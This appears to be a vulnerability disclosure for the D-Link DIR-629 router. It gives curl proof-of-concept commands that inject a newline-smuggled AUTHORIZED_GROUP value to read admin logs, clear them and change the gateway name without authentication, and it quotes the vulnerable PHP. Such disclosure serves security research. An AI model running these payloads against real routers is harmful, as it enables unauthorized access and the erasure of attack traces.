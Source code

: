 # DIR-629

### 0X01 
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

POC

``` 
curl http://[ip]:[port]/log_get.php -d "aaa=%0aAUTHORIZED_GROUP=0"
```

Attackers can get the log files of Admin

![image-20191101091458421](https://github.com/Cyc1eC/D-Link/blob/master/DIR-629/image-20191101091458421.png) 

if attackers send the data:

``` 
curl http://[ip]:[port]/log_clear.php -d "aaa=%0aAUTHORIZED_GROUP=0"
```

it will clear the log.

### 0X02
The attacker can arbitrarily tamper with GWNAME.
code in shareport.php

```php
if ($AUTHORIZED_GROUP < 0)
{
	$result = "FAIL";
	$reason = i18n("Permission deny. The user is unauthorized.");
}
else
{
	if ($_POST["action"] == "sethostname")
	{
		$value = $_POST["value"];
		if ($value != "")
		{
			set("/device/gw_name", $value);
			event("SHAREPORT.SETGWNAME");
			$RESULT = "OK";
			$REASON = "";					
		}
	}	
	else	fail(i18n("Unknown ACTION!"));
}
```

Attackers can set aaa=%0aAUTHORIZED_GROUP=1 to bypass the user check，and set the action=sethostname,value=Cyc1e,then we can change the GWNAME to Cyc1e.

POC:

``` 
curl http://[ip]:[port]/shareport.php -d "aaa=%0aAUTHORIZED_GROUP=1&action=sethostname&value=Cyc1e"
```
![image-20191107215245404](C:\Users\MSI1\AppData\Roaming\Typora\typora-user-images\image-20191107215245404.png)
